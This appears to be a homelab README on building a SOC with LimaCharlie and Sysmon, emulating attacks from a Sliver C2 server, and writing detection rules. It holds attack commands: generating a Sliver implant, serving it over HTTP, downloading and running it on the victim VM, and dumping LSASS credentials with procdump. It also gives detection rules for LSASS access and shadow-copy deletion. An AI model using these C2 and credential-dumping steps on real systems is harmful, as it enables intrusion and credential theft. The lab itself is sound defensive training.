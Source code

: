 <h1>Creating A SOC & Defending Attacks</h1>

<h2>Introduction</h2>

This Project consists of steps on how to:
 <ol type = "1">
  
<li>Build a SOC using LimaCharlie's EDR solution</li>
<li>Setup a Command-and-control (C2) framework</li>
<li>Using Sliver C2 framework to emulate threat actor behaviors</li>
<li>Writing Detection & Response rules to alert for and block new incoming simulated attacks</li>
</ol>

<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b> 
- <b><a href="https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html">VMware Workstation</a></b>
- <b><a href="https://limacharlie.io/">LimaCharlie's SecOps Cloud Platform</a></b>
- <b><a href="https://github.com/NextronSystems/ransomware-simulator">Florian Roth's Ransomware</a></b>
- <b><a href="https://bishopfox.com/tools/sliver">Sliver C2 Framework</a></b>
- <b>Python3</b>

<h2>Environments Used </h2>

- <b>Windows 11 /b> (Victim)
- <b>Ubuntu Linux </b> (Attacker)
- <b>Windows 10</b> (Security Operations Center)
<h2>Program walk-through:</h2>


<details><summary><h3>Part 1: Setting Up LimaCharlie 🛡</h3></summary>


<p align="center">
<u>First Download either <a href="https://www.virtualbox.org/wiki/Downloads">Oracle VM VirtualBox</a>, or <a href="https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html">VMWare Workstation</a> then install a <a href="https://ubuntu.com/download/server">Linux</a> and <a href="https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/">Windows 11</a> ISO:</u> 
 <br/>
<img src="https://i.imgur.com/jReyXB2.png" height="80%" width="80%" />
<br />
<br />
Install Sysmon and SwiftOnSecurity’s Sysmon config on your Windows VM to generate telemetry for LimaCharlie using these administrative powershell commands:  <br/>
  <ol type = "1">
   <li> <code>Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip </code></li>
   <li> <code>Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon</code></li>
   <li> <code>Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml</code></li>
   <li> <code>C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml</code></li> 
  </ol>
   <br />
   To Confirm Sysmon is running use these commands:
   <br />
   <code>Get-Service sysmon64</code>
   <br />
  <img src="https://i.imgur.com/WW1gzEB.png"/> </a>
   <br />
   <code> Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 10</code>
   <br />
   <img src="https://i.imgur.com/j6cy6Aq.png" height="80%" width="80%" />


   <p align="center">
   Now Create an <a href="https://app.limacharlie.io/signup"> LimaCharlie account</a> on your Host machine or another VM. Create an organization using the "Extended Detection & Response Standard" Template. Once the organization is created add a sensor to your Windows 11 VM using the "x86-64.exe" architecture.

 In your Windows VM, open an Administrative PowerShell prompt and paste the following commands:
  <br />
  <ol type = "1">
 <li><code>cd C:\Users\User\Downloads</code></li>
  
<li> <code>Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe</code></li>
  
<li> <code>cmd.exe</code></li>
 
<li>Now The Command given by LimaCharlie "lc_sensor.exe -i xxxxxxxxxxxxxxxxxx"</li>

  </ol>
  <br />
  <p align="center">
  Press Finish once LimaCharlie Detects your new sensor. Next, configure LimaCharlie to use Sysmon.
   <ol type = "1">
  
  <li>In the left-side menu, click “Artifact Collection”</li>
  <li>Next to “Artifact Collection Rules” click “Add Rule”</li>
  <li>Name: windows-sysmon-logs</li>
  <li>Platforms: Windows</li>
  <li>Path Pattern: wel://Microsoft-Windows-Sysmon/Operational:*</li>
  <li>Retention Period: 10</li>
  
  </ol>
<p align="center">
  After Saving that rule LimaCharlie will start sending Sysmon logs to your timeline.
<img src="https://imgur.com/xnrCVKz.png"/>
</details>
 <details><summary> <h3>Part 2: Sliver C2 Framework :crossed_swords:</h3> </summary>

<p align="center">
Next is to set up Sliver in Linux, swap to your Linux VM, and run these commands:
</p>
<ol type = "1">
<li><code>wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server</code></li>
<li><code>chmod +x /usr/local/bin/sliver-server </code></li>
<li><code>apt install -y mingw-w64 </code></li>
  <li><code># Create our future working directory
mkdir -p /opt/sliver</code></li>
</ol>
<p align="center">
log in to the root and launch Sliver.
 <ol type = "1">
<li><code>sudo su</code></li>
<li><code>cd /opt/sliver</code></li>
<li><code>sliver-server</code></li>
 </ol>
 <p align="center">
  Generate a C2 payload using this command:
   
 <li> <code>#Use ifconfig to find your LinuxVM IP this might require an installation depending on your Linux ISO
generate --http [Your Linux VM IP] --save /opt/sliver</code></li>
   
 <p align="center">
 </br>
  Find the name of your C2 payload:
     <li><code> implants </code></li>
  <img src="https://imgur.com/GkvD1OS.png"/>

   <p align="center">
To easily install this newly generated C2 payload from your Linux VM to your Windows VM, it's possible to use a temporary web server using Python. Exit sliver and run this command in the terminal:
<li><code> python3 -m http.server 80 </code></li>
<p align="center">
Open up your Windows VM and download your C2 payload from that temporary web server by opening up an Administrative PowerShell console, and using this command:
<li><code> IWR -Uri http://[Your Linux VM IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe </code></li>
<p align="center">
Swapping back to your Linux VM relaunch Sliver and start an HTTP listener.
<li><code>http</code></li>
<p align="center">
Back in your Windows VM use this Administrative PowerShell command:
 
<li><code>C:\Users\User\Downloads\[payload_name].exe</code></li>

<p align="center">
Back on Sliver open your sessions, and interact with your new C2 session to verify the connection.
<ol type = "1">
<li><code>sessions</code></li>
<li><code>use [session_id]</code></li>
<li><code>whoami</code></li>
</ol>
<img src="https://imgur.com/8Yo04Zc.png"/>
<p align="center">


 </details>
<details><summary> <h3>Part 3: Launching Attacks :crossed_swords:</h3> </summary>

 
<p align="center">
 From here I Launched an LSASS credential dumping attack that threat actors can use to pull the credentials of current users and domain admins. This could potentially give threat actors a new attack vector to move laterally across a network.
<li><code>procdump -n lsass.exe -s lsass.dmp</code></li>

<p align="center">
 Also Testing out ransomware using <a href="https://github.com/NextronSystems/ransomware-simulator/">Florian Roth's Ransomware <a/>
<img src="https://imgur.com/UsWuijc.png"/>
 </details>
<details><summary> <h3>Part 4: Detecting and Blocking Attacks	🛡</h3></summary>
 
<p align="center">
After launching both attacks I used LimaCharlie's SIEM to look for threat actor behavior first finding the LSASS credential dumping attack using a Sensitive Process filter.
  <p align="center">
<img src="https://imgur.com/lHwq2DD.png"/>
 
<p align="center">
I then wrote a custom Detection & Response rule to Alert when LSASS is accessed, and send a report.
 
</p>
Detect:
 </br>
 <code>event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe</code>
 </br>
 </br>
 Respond:
  </br>
  <code>- action: report
  name: LSASS access</code>

 <p align="center">  
 After that, I moved on to the ransomware. First identifying a new process on the timeline that was caused by the ransomware.
   <p align="center">
<img src="https://imgur.com/eY1LEdq.png"/>
  
  <p align="center">   
Then Wrote Another D&R rule for sending alerts, but then took it a step up, and if this process was run again to also terminate the parent process. Which would also kill the c2 payload, and remove shell access from the attacker VM.

   </p>
Detect:
 </br>
 <code>  - op: is
    path: event/FILE_PATH
    value: C:\Windows\system32\vssadmin.exe
  - op: contains
    path: event/COMMAND_LINE
    value: 'delete'
  - op: contains
    path: event/COMMAND_LINE
    value: 'shadows'
  - op: contains
    path: event/COMMAND_LINE
    value: '/all' </code>
 </br>
 </br>
 </code>
 Respond:
 <code>- action: report
  name: vss_deletion_kill_it
- action: task
  command:
    - deny_tree
    - << routing/parent >> </code>
  </br>

### <img src="https://imgur.com/CD9phES.png"/>

   <p align="center">
Finally to confirm my new D&R rule was running properly. I restarted Florian Roth's Ransomware, and the process was killed immediately. A new detection alert will be sent to report this action.
     <p align="center">
<img src="https://imgur.com/q20aInI.png"/>
 </details>
